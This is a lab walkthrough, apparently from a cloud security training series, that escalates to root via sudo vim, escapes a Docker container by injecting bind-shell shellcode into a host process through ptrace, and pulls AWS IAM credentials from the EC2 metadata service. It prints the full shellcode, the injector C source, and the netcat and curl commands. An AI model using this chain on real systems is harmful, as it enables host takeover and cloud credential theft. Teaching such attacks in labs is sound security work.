# Objective

Break out from the container to obtain AWS Instances' IAM Credentials.

# Solution

* We have already in the previous manual established a php reverse shell. But we are still inside a container with a restricted user. We will need to escalate our privileges and try to break out of the container.

* To break out of the container after escalating our privileges to the root user we will utilize the SYS_PTRACE capability provided to the container.

* After breaking out of the container we can use IMDS (Instance Metadata Service) to get the AWS credentials of the host instance.

## Escalating Privilege to root user

* On exploring the current users' environment, we aren't able to do much as the ``www-data`` user.

```bash
cd root
cat /etc/shadow
curl -m 5 http://169.254.169.254/latest/meta-data/
```

We can't view the /root directory, the /etc/shadow file, or even get a response from the IMDS endpoint. The IMDS endpoint is used to 
get metadata about the instance to facilitate its management and configuration. It is by accessing this endpoint that we will be able to get credentials for the EC2 instance's attached role.

```
URL: http://169.254.169.254/latest/meta-data/
```



* As we are inside a container, we can check for capabilities provided to the docker container.

```bash
capsh --print
```


The ``Current: =`` field is empty this could also be a reason of us not having sufficient privileges.


* We can try to switch to root:

```bash
sudo su
```

But we can't do that either

* We can try to list commands that we are allowed to run as superuser on the host.

```bash
sudo -l
```


* The current user can run vim on the /var/www/html/documents directory as root without using a password. This can allow us to escalate our privileges as vim in itself does feature an internal command line executor.

```bash
(root) NOPASSWD: /usr/bin/vim /var/www/html/documents
```




* Now we can try to get root access by running vim on the ``/var/www/html/documents`` directory with root privileges using the following command:

```bash
sudo /usr/bin/vim /var/www/html/documents
```

* Here we can try to spawn a shell through vims' internal command line executor by using the command after pressing the <escape> key:

```vim
:! /bin/sh
```


* We haven't come across an error, and have spawned a new shell. Run the below-mentioned commands to check if we have escalated our privileges.

```bash
whoami
id
```

And Hooray! we can see we are root here, but our task is not over yet. We need to break out of this container, so let's again try to list the capabilities for this docker container.

```bash
capsh --print
```



We can now see the ``Current:`` set of capabilities and one of those is ``SYS_PTRACE``. Thus this container can debug processes.


* Let's first list out the processes.

```
ps -ef
```




On inspecting the process we come across a ``http.server`` running with pid 19419. Looking at the process's start time it looks like this one started with root privileges on the host instance.

But the current shell gives us limited functionalities, let's check if we have python3 available and spawn a better tty shell.

```
python3 -V
python3 -c "import pty;pty.spawn('/bin/bash')"
```



On checking the architecture of the machine with ``uname -m`` we are certain the host machine is running 64-bit linux.

We can use a publicly available TCP BIND shell shellcode, to trigger a bind shell. A simple google search for "Linux x64 Bind shell shellcode exploit db" takes us to this exploit DB link: https://www.exploit-db.com/exploits/41128.

**Shellcode:**
```bash
"\x48\x31\xc0\x48\x31\xd2\x48\x31\xf6\xff\xc6\x6a\x29\x58\x6a\x02\x5f\x0f\x05\x48\x97\x6a\x02\x66\xc7\x44\x24\x02\x15\xe0\x54\x5e\x52\x6a\x31\x58\x6a\x10\x5a\x0f\x05\x5e\x6a\x32\x58\x0f\x05\x6a\x2b\x58\x0f\x05\x48\x97\x6a\x03\x5e\xff\xce\xb0\x21\x0f\x05\x75\xf8\xf7\xe6\x52\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x8d\x3c\x24\xb0\x3b\x0f\x05";
```

The above shellcode will trigger a Bind TCP Shell on port 5600.

The C program provided at the GitHub Link given below can be used to inject shellcode into a running process.

GitHub Link: https://github.com/0x00pf/0x00sec_code/blob/master/mem_inject/infect.c 

The shellcode used in the above-referenced C program will trigger a shell on the running process. Replace the shellcode with the shellcode provided at the exploit db link.

* Now use vim to save the below-modified program as inject.c

```bash
vim inject.c
```


**Modified Program**
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <sys/ptrace.h>
#include <sys/types.h>
#include <sys/wait.h>
#include <unistd.h>
#include <sys/user.h>
#include <sys/reg.h>

#define SHELLCODE_SIZE 87

unsigned char *shellcode = "\x48\x31\xc0\x48\x31\xd2\x48\x31\xf6\xff\xc6\x6a\x29\x58\x6a\x02\x5f\x0f\x05\x48\x97\x6a\x02\x66\xc7\x44\x24\x02\x15\xe0\x54\x5e\x52\x6a\x31\x58\x6a\x10\x5a\x0f\x05\x5e\x6a\x32\x58\x0f\x05\x6a\x2b\x58\x0f\x05\x48\x97\x6a\x03\x5e\xff\xce\xb0\x21\x0f\x05\x75\xf8\xf7\xe6\x52\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x8d\x3c\x24\xb0\x3b\x0f\x05";

int inject_data(pid_t pid, unsigned char *src, void *dst, int len)
{
int i;
uint32_t *s = (uint32_t *)src;
uint32_t *d = (uint32_t *)dst;

for (i = 0; i < len; i += 4, s++, d++)
{
if ((ptrace(PTRACE_POKETEXT, pid, d, *s)) < 0)
{
perror("ptrace(POKETEXT):");
return -1;
}
}
return 0;
}

int main(int argc, char *argv[])
{
pid_t target;
struct user_regs_struct regs;
int syscall;
long dst;
if (argc != 2)
{
fprintf(stderr, "Usage:\n\t%s pid\n", argv[0]);
exit(1);
}

target = atoi(argv[1]);
printf("+ Tracing process %d\n", target);

if ((ptrace(PTRACE_ATTACH, target, NULL, NULL)) < 0)
{
perror("ptrace(ATTACH):");
exit(1);
}
printf("+ Waiting for process...\n");
wait(NULL);
printf("+ Getting Registers\n");

if ((ptrace(PTRACE_GETREGS, target, NULL, &regs)) < 0)
{
perror("ptrace(GETREGS):");
exit(1);
}

/* Inject code into current RPI position */

printf("+ Injecting shell code at %p\n", (void *)regs.rip);
inject_data(target, shellcode, (void *)regs.rip, SHELLCODE_SIZE);
regs.rip += 2;
printf("+ Setting instruction pointer to %p\n", (void *)regs.rip);

if ((ptrace(PTRACE_SETREGS, target, NULL, &regs)) < 0)
{
perror("ptrace(GETREGS):");
exit(1);
}
printf("+ Run it!\n");

if ((ptrace(PTRACE_DETACH, target, NULL, NULL)) < 0)
{
perror("ptrace(DETACH):");
exit(1);
}
return 0;
}
```

* View the saved file to check for any errors.

```bash
cat inject.c
```


* Now we will compile the program and make a note of the pid of the python3 http.server process.

```bash
gcc inject.c -o inject
ps -ef | grep "python"
```



* We will execute the compiled binary and pass it the pid of the HTTP Server as an argument.

```bash
./inject 19419
```

The binary executes successfully, now to connect to the bind shell we need the IP address of the host machine. From the ``ifconfig`` command we find the IP address of the docker host to be 172.17.0.2, therefore the host machine will have IP address ``172.17.0.1``.

So we will connect to the bind shell with netcat on port 5600 using the command:

```bash
nc 172.17.0.1 5600
```



* We have connected let's check the user id, we are uid=0, and on listing the root of the filesystem, we are on the host machine.



* We can now try to access the EC2 instance IMDS endpoint.

```bash
curl -m 5 http://169.254.169.254/latest/meta-data/
```



* We are now able to interact with the IMDS service for the EC2 instance and hence can now get the iam credentials for the role assumed by this instance.

```bash
curl http://169.254.169.254/latest/meta-data/iam/security-credentials
```  



* We can now export these credentials to our machine and with these credentials use the role assumed by the instance.

```bash
export AWS_ACCESS_KEY_ID=<value>
export AWS_SECRET_ACCESS_KEY=<value>
export AWS_SESSION_TOKEN=<value>
aws sts get-caller-identity
```

We have the role ``ecs-instance-role`` assumed by instance ``i-06af3faade2026b35``.




# What's happening?

* Being able to run vim as root without a password allowed us to use its internal command line executor to get root access on the container.

* With root access on the container we were able to find the docker containers' capabilities and exploit them to break out of the container into the host instance. We were able to do so by injecting a TCP bind shell payload into a process that was started by the host instances' root user.

* Gaining the access to the root user of the host instance made it possible to interact with the EC2 IMDS and get iam credentials for the assumed role.
